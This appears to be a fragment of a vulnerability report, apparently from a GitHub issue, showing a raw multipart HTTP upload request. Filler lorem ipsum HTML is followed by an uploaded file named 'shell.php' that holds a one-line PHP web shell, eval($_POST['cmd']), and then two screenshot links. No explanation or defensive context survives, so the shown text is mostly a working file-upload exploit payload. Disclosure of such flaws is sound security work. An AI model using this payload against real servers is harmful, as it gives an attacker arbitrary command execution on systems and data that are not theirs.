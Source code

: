 ```

<p style="text-align: center; background: transparent; position: relative;"><span style="background: transparent; position: relative; font-size: 14px;"><span style="font-size:28px;background: transparent; position: relative;"><b style="margin: 0px; padding: 0px; color: rgb(0, 0, 0); font-family: &quot;Open Sans&quot;, Arial, sans-serif; text-align: justify;">Lorem Ipsum</b><span style="color: rgb(0, 0, 0); font-family: &quot;Open Sans&quot;, Arial, sans-serif; font-weight: 400; text-align: justify;">&nbsp;is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry’s standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.</span><br></span></p><p style="text-align: center; background: transparent; position: relative;"><br></p><p></p>
-----------------------------40529263481406965619837323063
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: text/php

<?php eval($_POST["cmd"]);?>

-----------------------------40529263481406965619837323063--

```
<img width="1070" alt="image" src="https://github.com/user-attachments/assets/2635eace-911a-46eb-9fa0-64e5147ff59a">
<img width="1081" alt="image" src="https://github.com/user-attachments/assets/2e369857-2342-4d32-86bb-ce773ecae9f1">

